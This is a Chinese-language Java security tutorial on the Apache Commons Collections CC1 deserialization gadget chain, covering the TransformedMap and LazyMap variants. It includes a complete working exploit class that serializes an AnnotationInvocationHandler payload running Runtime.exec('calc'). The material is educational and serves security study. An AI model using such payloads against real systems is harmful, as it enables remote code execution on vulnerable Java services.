# 13 · 反序列化链 · TransformedMap 与 CC1

> 查阅区 · **只查不读**，不进学习路径。原文拆自 `JAVA安全-全本`，正文一字未改，仅调标题层级与图片相对路径。
> 什么时候翻：红队 M3 素材；本线只取 Transformer 四类的调用关系用于判前置

### Apache Commons Collections反序列化漏洞

- TransformedMap调用链详解

  - Transformer接口类

    ```java
    public interface Transformer {
        public Object transform(Object input);
    }
    ```

  - ConstantTransformer（常量转换方法）

    ```java
     public Object transform(Object input) {
            return iConstant;
        }
    ```

  - InvokerTransformer（反射调用方法）

    ```java
     public Object transform(Object input) {
            if (input == null) {
                return null;
            }
    
            try {
                  // 获取输入类的类对象
                Class cls = input.getClass();
    
                  // 通过输入的方法名和方法参数，获取指定的反射方法对象
                Method method = cls.getMethod(iMethodName, iParamTypes);
                  // 反射调用指定的方法并返回方法调用结果
                return method.invoke(input, iArgs);
            } catch (Exception ex) {
                // 省去异常处理部分代码
            }
        }
    ```

  - ChainedTransformer（依次调用transform方法）

    ```java
    public Object transform(Object object) {
          for (int i = 0; i < iTransformers.length; i++) {
              object = iTransformers[i].transform(object);
          }
    ```

  - TransformedMap（触发InvokerTransformer的方法执行本地命令）
    - 实现了`java.io.Serializable`接口；
    - 可以构建的`TransformedMap`对象；
    - 调用了`TransformedMap`中的`setValue/put/putAll`中的任意方法一个方法的类；

  - AnnotationInvocationHandler（间接调用TransformedMap中的MapEntry的setValue方法，从而触发transform方法，完成整个攻击链）

- 完整的攻击链

  ```java
  ObjectInputStream.readObject()
    ->AnnotationInvocationHandler.readObject()
        ->TransformedMap.entrySet().iterator().next().setValue()
            ->TransformedMap.checkSetValue()
          ->TransformedMap.transform()
            ->ChainedTransformer.transform()
              ->ConstantTransformer.transform()
              ->InvokerTransformer.transform()
                ->Method.invoke()
                  ->Class.getMethod()
              ->InvokerTransformer.transform()
                ->Method.invoke()
                  ->Runtime.getRuntime()
              ->InvokerTransformer.transform()
                ->Method.invoke()
                  ->Runtime.exec()
  ```


## CC1

### 改造命令执行方法

- 要通过Java反序列化执行命令首先就要序列化有可执行命令方法的类，这里选择Runtime.getRuntime()，通过以下命令便能在本地进行命令执行
  - 直接调用命令执行

```java
Runtime.getRuntime().exec("calc");
```

- 为了在反序列化时进行动态调用，选择更进一步通过反射调用
  - 反射调用命令执行

```java
Runtime r = Runtime.getRuntime();
Class runtimeClass = Runtime.class;
Method method = runtimeClass.getMethod("exec", String.class);
method.invoke(r, "calc");
```

- Runtime类本身是不能进行序列化的，但Runtime.class可以进行序列化



- 这里选择通过反射获取`getRuntime()`获取Runtime类并调用`exec()`

```java
Class<Runtime> runtimeClass = Runtime.class;
Method method = runtimeClass.getMethod("getRuntime", null);
Runtime r = (Runtime) method.invoke(null, null);
Method exec = runtimeClass.getMethod("exec", String.class);
exec.invoke(r, "calc");
```

### 由结果倒推CC1链

- CC1链的利用类主要是与继承`Transformer`接口几个类相关，其中用于执行命令的是`InvokerTransformer`类

  

- 可以看到这个类是能序列化的，并且这个类的transformer方法能通过反射执行命令

  

- 仿照改造命令执行方法的最终版，使用`InvokerTransformer.transform`调用

  ```java
  Method getmethod = (Method) new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}).transform(Runtime.class);
  
  Runtime invoke = (Runtime) new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}).transform(getmethod);
  
  new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}).transform(invoke);
  ```

- 发现这个调用方法就是一条循环调用的链条，这里引出`Transformer`接口的另一个利用类`ChainedTransformer`，这个类的`transform()`巧好就是循环调用的方法

  

- 所有进一步改造调用链执行命令的部分

  ```java
  Transformer[] transformers = new Transformer[] {
          new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
          new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
          new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
  };
  ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
  chainedTransformer.transform(Runtime.class);
  ```

- Gadget的最后部分目前看起来没什么问题，接下来要做的就是找到可以衔接上`ChainedTransformer.transform()`的其它类，选择transform方法右键选择Find Usage

  

- 最后选择的是Map内的类，可以看到有三个，这里先用类`TransformedMap`

  

- 这里先选择`TransformedMap.checkSetValue()`

  

  - 其中的`valueTransformer()`便是要传入的类，且value值可控，往上跟，发现这个类中使用装饰器装饰了Map，而要控制的`valueTransformer`赫然便在其中，所以可以创建一个Map对象并控制`valueTransformer`的值为`chainedTransformer`，也就是现在有了`chainedTransformer.transform()`

    

  - 但我们的目标是`chainedTransformer.transform(Runtime.class)`，所以还要找到控制value值的类，并要能调用`checkSetValue()`，继续跟踪，到了`AbstractInputCheckedMapDecorator.setValue()`，其`MapEntry`类的`setValue()`控制了value的值，且调用了想要的方法

    

  - `AbstractInputCheckedMapDecorator`恰好是`TransformedMap`的父类，通过`Map.Entry`接口调用MapEntry类，并调用其下的`setValue()`，代码片段如下

    ```java
    HashMap<Object, Object> map = new HashMap<>();
            map.put("key", "value");
            Map<Object, Object> transformedmap = TransformedMap.decorate(map, null, chainedTransformer);
            for (Map.Entry entry:transformedmap.entrySet()) {
                entry.setValue(Runtime.class);
            }
    ```

- 接下来要处理的就是找到类触发`setValue()`，同样右键选择Find Usage，最后选择的是`AnnotationInvocationHandler.readObject()`，因为readObject()方法便是Java反序列的入口方法

  

  - 接下来要做的就很简单了，也就是通过反射实例化类`AnnotationInvocationHandler`，并将其序列化

    

  - 最后代码如下，其中传入的Class对象必须是Annotation也就是注解类型或其子类型

    ```java
    Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor declaredConstructor = clazz.getDeclaredConstructor(Class.class, Map.class);
    declaredConstructor.setAccessible(true);
    Object o = declaredConstructor.newInstance(Override.class, transformedmap);
    
    serialize(o);
    deserialize("out.bin");
    ```

  - 最后代码虽然没有报错，但并没有成功执行从头到尾调试一下代码发现问题就出在了入口类

    - 首先是第一个问题，也就是第一个if处，判断成员变量类型是否为空

      

    - 这里为空的原因是传入的Override注解其中本来就没有成员变量

      

    - 所以这里选择传入Target，其中有value()成员变量

      

    - 同时修改一下map的传入值，修改的代码片段如下

      ```java
      HashMap<Object, Object> map = new HashMap<>();
      map.put("value", "Jw1ng");
      /*省略的部分代码*/
      Object o = declaredConstructor.newInstance(Target.class, transformedmap);
      ```

    - 再次调试发现成功过了第一个if判断，第二个判断也没有拦截，但`setValue()`中的值并不可控，而是指定了`AnnotationTypeMismatchExceptionProxy`类，同样无法执行命令

      

- 此处问题也引出了与`Transformer`相关的第三个类`ConstantTransformer`

  

  - 其`transform()`始终返回传入的值也就相当于一个常量传入`Runtime.class`也就返回这个字节码，在`InvokerTransformer`前传入这个值，也就强过了在`readObject()`中的赋值

- 所以最终的代码如下

  ```java
  package CC1;
  
  import org.apache.commons.collections.Transformer;
  import org.apache.commons.collections.functors.ChainedTransformer;
  import org.apache.commons.collections.functors.ConstantTransformer;
  import org.apache.commons.collections.functors.InvokerTransformer;
  import org.apache.commons.collections.map.TransformedMap;
  
  import java.io.*;
  import java.lang.annotation.Target;
  import java.lang.reflect.Constructor;
  import java.lang.reflect.InvocationTargetException;
  import java.util.HashMap;
  import java.util.Map;
  
  public class CC1 {
      public static void main(String[] args) throws Exception {
  
          Transformer[] transformers = new Transformer[] {
                  new ConstantTransformer(Runtime.class),
                  new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                  new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                  new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
          };
          ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
  
          HashMap<Object, Object> map = new HashMap<>();
          map.put("value", "Jw1ng");
          Map<Object, Object> transformedmap = TransformedMap.decorate(map, null, chainedTransformer);
         
          Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
          Constructor declaredConstructor = clazz.getDeclaredConstructor(Class.class, Map.class);
          declaredConstructor.setAccessible(true);
          Object o = declaredConstructor.newInstance(Target.class, transformedmap);
  
          serialize(o);
          deserialize("out.bin");
  
      }
  
  
      public static void serialize(Object obj) throws IOException {
          ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("out.bin"));
          oos.writeObject(obj);
      }
  
      public static Object deserialize(String Filename) throws IOException, ClassNotFoundException {
          ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
          Object o = ois.readObject();
          return o;
  
      }
  }
  
  ```

- Gadget如下

```java
AnnotationInvocationHandler.readObject()
	AbstractInputCheckedMapDecorator.setValue()
    	TransformedMap.checkSetValue()	
			ChainedTransformer.transform()
                ConstantTransformer(Runtime.class)
                InvokerTransformer.transform()
                    Class.getMethod
                    gerMethod.getRuntime()
                    Runtime.getRuntime().exec()
```

### 另一种CC1利用链

- 链子的后半部分都相同，不同的是前半部分，这条链选择类`LazyMap`

  

- 类`LazyMap`中的`get()`有可控类的`transform()`

  

- 同样的装饰器，可以将`ChainedTransformer`作为factory传入

  

  ```java
  /*
  省略下半部分代码
  */
  HashMap<Object, Object> map = new HashMap<>();
  Map lazymap = LazyMap.*decorate*(map, chainedTransformer);
  ```

- 接下来就是要找可控类触发`get()`，这里漏洞发现者同样选择类`AnnotationInvocationHandler`

  

- `get()`在对象`invoke`中，这里要知道通过动态代理调用任何类似InvocationHandler的类的方法时都会触发`invoke()`，所以要想办法触发这个类中的方法，这里选择的还是`readObject()`中的方法

  

  - 可以看到`entrySet()`的类可控，且能绕过`invoke()`前两个if，第一个if很好绕过，但第二个if要求是无参方法就真的有点太巧妙了

- 于是就有了以下的代码

  ```java
  Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
  Constructor declaredConstructor = clazz.getDeclaredConstructor(Class.class, Map.class);
  declaredConstructor.setAccessible(true);
  
  InvocationHandler invocationHandler = (InvocationHandler) declaredConstructor.newInstance(Override.class, lazymap);
  Map proxymap = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, invocationHandler);
  
  #传入Override是因为前面有一个异常判断需要有注解，这里的proxymap便是动态代理，通过proxy.entrySet()的调用便会触发invoke()，进入其中便能得到想要的get()
  Object o =  declaredConstructor.newInstance(Override.class, proxymap);
  ```

- Gadget

  ```java
  AnnotationInvocationHandler.readObject()
  	Map(Proxy).entrySet()
  		AnnotationInvocationHandler.invoke()
              LazyMap.get()	
                  ChainedTransformer.transform()
                      ConstantTransformer(Runtime.class)
                      InvokerTransformer.transform()
                          Class.getMethod
                          gerMethod.getRuntime()
                          Runtime.getRuntime().exec()
  ```
